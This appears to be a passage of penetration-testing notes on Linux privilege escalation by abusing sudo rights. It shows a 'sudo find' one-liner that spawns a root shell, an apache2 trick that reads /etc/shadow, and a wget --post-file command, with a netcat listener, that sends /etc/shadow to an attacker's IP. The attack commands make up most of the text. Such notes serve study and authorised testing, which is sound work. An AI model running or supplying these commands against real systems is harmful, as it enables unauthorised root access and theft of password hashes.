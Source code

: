 -- -
Read files as root. These vectors won't produce a shell but you can read root files as root.
#### find
```bash
sudo find . -exec /bin/bash \; -quit
```
#### Apache
Sometimes, you will have a program that shows up in the enum that does not show up as exploitable in GFTOBins, but that doesn't mean it isn't possible to abuse, in this case you can put in the software into google: `apache privesc exploit`
This may come up with something like the following with a way it can be abused to privesc, in this case you get a file read on a file we shouldn't be able to read:
```bash
sudo apache2 -f /etc/shadow
```
#### wget
Similarly to above, you may not see wget in GTFOBins directly, but you can use it to get file access to files locked to root, so you can abuse wget to send yourself a file (like `/etc/shadow`) that you should not have access to:
```bash
# on attack box
nc -nvlp <listening port>
nc -nvlp 8001

# on target
sudo wget --post-file=<file path> <attack ip>:<listening port>
sudo wget --post-file=/etc/shadow 10.10.10.10:8001
```